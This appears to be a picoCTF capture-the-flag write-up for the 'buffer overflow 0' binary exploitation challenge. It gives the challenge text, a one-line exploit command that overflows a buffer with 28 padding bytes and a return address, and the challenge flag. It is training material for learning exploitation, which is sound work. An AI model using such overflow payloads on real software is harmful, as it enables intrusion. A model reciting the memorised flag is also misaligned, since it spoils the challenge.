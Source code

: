 # buffer overflow 0
Points: 150

## Category
Binary Exploitation

## Question
>Let's start off simple, can you overflow the right buffer in this [program](files/vuln) to get the flag? You can also find it in /problems/buffer-overflow-0_2_aab3d2a22456675a9f9c29783b256a3d on the shell server. [Source](files/vuln.c). 

### Hint
>How can you trigger the flag to print?
>
>If you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.

## Solution
Simple buffer overflow question

```bash
./vuln $(python -c "from pwn import *; print 'A' * 28 + p32(0x804862b)")
```

Working solution [solve.sh](solution/solve.sh)

### Flag
`picoCTF{ov3rfl0ws_ar3nt_that_bad_5d8a1fae}`
